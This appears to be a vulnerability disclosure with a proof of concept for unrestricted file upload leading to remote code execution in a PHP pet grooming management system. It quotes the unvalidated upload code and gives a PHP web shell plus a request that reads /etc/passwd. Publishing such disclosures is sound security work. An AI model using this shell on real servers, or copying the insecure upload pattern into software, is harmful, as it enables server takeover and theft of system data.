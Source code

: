 # Proof of Concept – Unrestricted File Upload in Pet Grooming Management System (RCE)
### Summary

The Pet Grooming Management System contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

**Product:** [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)
</br>
**Vendor:** [SourceCodester](https://www.sourcecodester.com)
</br>
**Vulnerable File:** ``/profile.php``
</br>
**Version:** V1.0
</br>

**Evidence:**
![](./evidence1.png)


### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
![](./Step1.png)


### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```


![](./Step2.png)

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=cat /etc/passwd```

### Example Output:

![](./evidence2.png)

